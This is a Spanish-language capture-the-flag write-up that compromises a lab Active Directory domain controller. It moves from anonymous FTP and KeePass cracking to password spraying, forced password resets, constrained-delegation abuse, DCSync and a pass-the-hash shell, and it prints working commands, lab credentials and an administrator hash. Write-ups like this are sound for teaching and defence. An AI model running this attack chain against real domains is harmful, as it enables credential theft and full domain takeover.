# Scan 
Empezamos realizando un escaneo con ``rustscan -a 10.129.229.56 --ulimit 5000 -r 1-65535 -- -sVC -oN scan -Pn``
```js
PORT      STATE SERVICE       REASON          VERSION
21/tcp    open  ftp           syn-ack ttl 127 Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 10-20-24  12:11AM                  434 CyberAudit.txt
| 10-20-24  04:14AM                 2622 Shared.kdbx
|_10-20-24  12:26AM                  580 TrainingAgenda.txt
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2026-03-06 09:20:55Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
1433/tcp  open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.234.50:1433: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
|_ssl-date: 2026-03-06T09:22:02+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-05T21:50:17
| Not valid after:  2056-03-05T21:50:17
| MD5:     d601 eb85 6333 fbab 4e1f f11f ff87 c0f0
| SHA-1:   4c98 f3b8 f36e 0023 5c53 425b 0b56 9d62 cf08 72e4
| SHA-256: c0e3 e74a b512 c83a b5c2 a636 8586 21d9 1e80 6e17 66ff d833 3583 7c7f 77df 25a4
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQOFhkPrySJYxI9HV+/yiIuzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzA1MjE1MDE3WhgPMjA1NjAzMDUyMTUwMTdaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALoUC8eM
| eyX91db15K8icgJgX+wQg5y187wwbKy/SbjEidC1KsT5R/X8Yo7HdC0dEwk/OwMh
| Q2H+GBlRGsuIzb22rn/CEcRIzKBox49X+RgYz/W0zJ/lliwWNptOome+s8Q1wIDO
| 6awU7pyBvc2/lgaolZ/lQdlIdLrWewOfTObSA0mP82r+xRTxLhE/YfuvaCNRXzUX
| 3XUmScA/1HHC7WAY2NumwK8l6tm/BWeYAm9YNuo2M407q0OmcXwX5kGxxwy1q93f
| f0Zy4w7VFOOm8AEFtVOfzqRWlhPkeXL3XCf4hMVA0UU00HXhZmi0VT8I6hjfOPbX
| O5uLTJu5z3SFXYECAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAZYT7h7pEz5HgdfdH
| TO6gLK3erQGE+8YKUwupdG55SMGo39kpCxjE4m9N9RFQhib5w3AC486jtdeznHVV
| KjpPrimT2Gy1lleHG7I0jybSdU1NBZgPkW6nTsFlecHQUSe0W7rFGvQEz4LBIR4H
| 6P3CJfo9MoR/cSrmvpS3YsGaJcHhZmr5iAW2PjBjfkaKtxsjNhKsNXwXRm6pRrtN
| qFioHQLWb9C5+hgP9IlNnMEIzf4qlWpiEeVUbZ/YeNPK8JQ6Epqp4pYttJYwPPi+
| fb9alVmT8fiE/ELVm3FEg/RYObfiu254XI0pJDaLgUDXbY1VFWJ0vd2JkbEn/Pqb
| dui3iA==
|_-----END CERTIFICATE-----
| ms-sql-info: 
|   10.129.234.50:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: redelegate.vl, Site: Default-First-Site-Name)
3389/tcp  open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
|_ssl-date: 2026-03-06T09:22:02+00:00; -2s from scanner time.
| ssl-cert: Subject: commonName=dc.redelegate.vl
| Issuer: commonName=dc.redelegate.vl
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-04T21:48:00
| Not valid after:  2026-09-03T21:48:00
| MD5:     07f5 472e 50d7 7e98 ad4a 03a5 a06a 76ed
| SHA-1:   0deb 0911 4393 09bc e388 f9cd d4c1 d32d d78d 45c3
| SHA-256: 5c7f 6b50 2c9a f62c 3f73 6e45 86de 59e4 538d 080a 6ef6 5291 41c3 be74 8ff8 b53b
| -----BEGIN CERTIFICATE-----
| MIIC5DCCAcygAwIBAgIQHCmS345m+r1GkvAgRO+2KjANBgkqhkiG9w0BAQsFADAb
| MRkwFwYDVQQDExBkYy5yZWRlbGVnYXRlLnZsMB4XDTI2MDMwNDIxNDgwMFoXDTI2
| MDkwMzIxNDgwMFowGzEZMBcGA1UEAxMQZGMucmVkZWxlZ2F0ZS52bDCCASIwDQYJ
| KoZIhvcNAQEBBQADggEPADCCAQoCggEBALBvl9z4l9xTiV6gyyIWdoLJJnH/DTos
| cskjomkm27O2Zph8HkvuZRhmDFfrqcN3KCrHYXNy82NCreNgWHwETFLx1+ROnv74
| hSe+UFZfu9Y+24YRgk3uvhwMJy9gW+TUzRy/Z8pBPBJY7Cz02GgWoohtG88p4Sts
| gLrRG6p8W8VyC70qEiCj4dY097bFTzaxkarR8FhWsCZZwghTBXG54qyv2e9AdFDj
| Yy24BrM6F8XbLtQAjbXXV+UGFJQnmRoAWr6AxuyrxUPJaD8xLtMQUpZnINxc7ahQ
| gQEFsSKYczehkwJ3jb+IroAfryggRpxhkYgvlgfEzGzordwAcKRkPIUCAwEAAaMk
| MCIwEwYDVR0lBAwwCgYIKwYBBQUHAwEwCwYDVR0PBAQDAgQwMA0GCSqGSIb3DQEB
| CwUAA4IBAQAYMR82wdibTYD036ZO+egJ9NKoVte9XHPKpIyIVQi6pxMh9GywmncK
| ADqYlGT+rCD0i8R8iNZccEU0dIZwsniDvOxmU2Db7fTf8ivimXV53akSzTrD4os1
| sqPBA6M906ALZKyQ6JB1R16klAGhh1Odt17dOdp/8lFbnTl65Ba2ocXr31aJQCa4
| NhmKzDaSw1HjdJY01SJ5uZACvjQFYDaL3E2OUC3zJ9CyrQHby93SK+mW2z5VbY3d
| 7bnRKaqv/X1/bx7zLFLLIZFL4R/uouG5EoMegSRLcghtbKUR3AB2qbuESsaZRs+d
| V0kIcGfgPf7ZurqOZyKSQnm9GMWO/Rjs
|_-----END CERTIFICATE-----
| rdp-ntlm-info: 
|   Target_Name: REDELEGATE
|   NetBIOS_Domain_Name: REDELEGATE
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: redelegate.vl
|   DNS_Computer_Name: dc.redelegate.vl
|   DNS_Tree_Name: redelegate.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-03-06T09:21:51+00:00
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49932/tcp open  ms-sql-s      syn-ack ttl 127 Microsoft SQL Server 2019 15.00.2000.00; RTM
|_ssl-date: 2026-03-06T09:22:02+00:00; -2s from scanner time.
| ms-sql-ntlm-info: 
|   10.129.234.50:49932: 
|     Target_Name: REDELEGATE
|     NetBIOS_Domain_Name: REDELEGATE
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: redelegate.vl
|     DNS_Computer_Name: dc.redelegate.vl
|     DNS_Tree_Name: redelegate.vl
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.129.234.50:49932: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 49932
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-03-05T21:50:17
| Not valid after:  2056-03-05T21:50:17
| MD5:     d601 eb85 6333 fbab 4e1f f11f ff87 c0f0
| SHA-1:   4c98 f3b8 f36e 0023 5c53 425b 0b56 9d62 cf08 72e4
| SHA-256: c0e3 e74a b512 c83a b5c2 a636 8586 21d9 1e80 6e17 66ff d833 3583 7c7f 77df 25a4
| -----BEGIN CERTIFICATE-----
| MIIDADCCAeigAwIBAgIQOFhkPrySJYxI9HV+/yiIuzANBgkqhkiG9w0BAQsFADA7
| MTkwNwYDVQQDHjAAUwBTAEwAXwBTAGUAbABmAF8AUwBpAGcAbgBlAGQAXwBGAGEA
| bABsAGIAYQBjAGswIBcNMjYwMzA1MjE1MDE3WhgPMjA1NjAzMDUyMTUwMTdaMDsx
| OTA3BgNVBAMeMABTAFMATABfAFMAZQBsAGYAXwBTAGkAZwBuAGUAZABfAEYAYQBs
| AGwAYgBhAGMAazCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBALoUC8eM
| eyX91db15K8icgJgX+wQg5y187wwbKy/SbjEidC1KsT5R/X8Yo7HdC0dEwk/OwMh
| Q2H+GBlRGsuIzb22rn/CEcRIzKBox49X+RgYz/W0zJ/lliwWNptOome+s8Q1wIDO
| 6awU7pyBvc2/lgaolZ/lQdlIdLrWewOfTObSA0mP82r+xRTxLhE/YfuvaCNRXzUX
| 3XUmScA/1HHC7WAY2NumwK8l6tm/BWeYAm9YNuo2M407q0OmcXwX5kGxxwy1q93f
| f0Zy4w7VFOOm8AEFtVOfzqRWlhPkeXL3XCf4hMVA0UU00HXhZmi0VT8I6hjfOPbX
| O5uLTJu5z3SFXYECAwEAATANBgkqhkiG9w0BAQsFAAOCAQEAZYT7h7pEz5HgdfdH
| TO6gLK3erQGE+8YKUwupdG55SMGo39kpCxjE4m9N9RFQhib5w3AC486jtdeznHVV
| KjpPrimT2Gy1lleHG7I0jybSdU1NBZgPkW6nTsFlecHQUSe0W7rFGvQEz4LBIR4H
| 6P3CJfo9MoR/cSrmvpS3YsGaJcHhZmr5iAW2PjBjfkaKtxsjNhKsNXwXRm6pRrtN
| qFioHQLWb9C5+hgP9IlNnMEIzf4qlWpiEeVUbZ/YeNPK8JQ6Epqp4pYttJYwPPi+
| fb9alVmT8fiE/ELVm3FEg/RYObfiu254XI0pJDaLgUDXbY1VFWJ0vd2JkbEn/Pqb
| dui3iA==
|_-----END CERTIFICATE-----
50118/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
50119/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50120/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50125/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50138/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50170/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
50281/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 41886/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 37120/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 15429/udp): CLEAN (Timeout)
|   Check 4 (port 16139/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-03-06T09:21:55
|_  start_date: N/A
|_clock-skew: mean: -1s, deviation: 0s, median: -2s
```
Añadimos ``redelegate.vl`` y ``dc.redelegate.vl`` al ``/etc/hosts``
# Exploitation
Como vemos en nuestro reporte de nmap tenemos acceso como anonymous y tenemos archivos interesantes:
```bash
ftp anonymous@10.129.234.50
```

Vemos el contenido de los txt:
Vemos que aun quedan por aplicar 2 parches: 
	Remove unused objects in the domain: IN PROGRESS
	Recheck ACLs: IN PROGRESS
Tambien se nos menciona un patron de contraseñas:
	SeasonYear!

Ahora vamos a crear un diccionario con el patron de contraseñas mencionado anteriormente y usarlo para crackear Shared.kdbx:
```bash
keepass2john Shared.kdbx > hash
john --wordlist=wordlist hash
```

Ahora abrimos el archivo con kepass y  ponemos la contraseña `Fall2024!`:

Vemos que tenemos la contraseña de mssql así que vamos a intentar conectarnos:
```bash
impacket-mssqlclient SQLGuest:zDPBpaF4FywlqIv11vii@dc.redelegate.vl
```
Pero no encontramos nada interesante.
## Marie.Curie
Enumeramos los usuarios del dominio haciéndole fuerza bruta al rid desde mssql:
```bash
nxc mssql dc.redelegate.vl -u SQLGuest -p zDPBpaF4FywlqIv11vii --local-auth --rid-brute
```

Metemos las cuentas de usuario en un archivo para realizar un password spraying con las credenciales del kepass:

```bash
nxc smb dc.redelegate.vl -u users  -p pass --continue-on-success
```

Ahora que tenemos el usuario ``Marie.Curie:Fall2024!`` vamos a enumerar con bloodhound:
```bash

```
Ahora una vez hacemos el análisis con bloodhound vemos que helen.frost nos puede ser util:

Helen es miembro de remote management users y a su vez  pertenece a IT que tiene genericall sobre fs01:


Entonces la ruta de ataque quedaría así:

## Helen.Frost 
Empezamos cambiando al contraseña a Helen.Frost:
```bash
bloodyAD -u MARIE.CURIE -p 'Fall2024!' -d redelegate.vl --dc-ip 10.129.234.50 set password HELEN.FROST 'NewPass123!'
```
Ahora nos conectamos como helen usando ``evil-winrm-py -i 10.129.234.50 -u 'helen.frost' -p 'NewPass123!'``  y obteniendo así la user flag:

## Fs01- Resource-Based Constrained Delegation (RBCD)
Empezamos cambiando la contraseña de **FS01$** desde **Helen**:
```bash
bloodyAD -u HELEN.FROST -p 'NewPass123!' -d redelegate.vl --dc-ip 10.129.234.50 set password 'FS01$' 'Password123!'
```
Con esto estamos configurando los privilegios de **FS01$** para que pueda usar **S4U2Self**:
```bash
bloodyAD -u HELEN.FROST -p 'NewPass123!' -d redelegate.vl --dc-ip 10.129.234.50 set object 'FS01$' userAccountControl -v 16781312
```
Establecemos la delegación RBCD así podemos solicitar un **ST** para el **administrador**:
```bash
bloodyAD -u HELEN.FROST -p 'NewPass123!' -d redelegate.vl --dc-ip 10.129.234.50 set object 'FS01$' msDS-AllowedToDelegateTo -v 'ldap/dc.redelegate.vl'
```
Solicitamos el **ST** suplantando al usuario **DC**:
```bash
getST.py 'redelegate.vl/FS01$:Password123!' -spn ldap/dc.redelegate.vl -impersonate dc -dc-ip 10.129.234.50
```
Realizamos un dcsync aprovechando el ticked de DC:
```bash
export KRB5CCNAME=dc@ldap_dc.redelegate.vl@REDELEGATE.VL.ccache
secretsdump.py -k -no-pass dc.redelegate.vl
```


Ahora nos conectamos con wmiexec consiguiendo así una shell como admin:
```bash
wmiexec.py redelegate.vl/administrator@dc.redelegate.vl -hashes :ec17f7a2a4d96e177bfd101b94ffc0a7
```
Y encontramos así la root flag en el desktop:
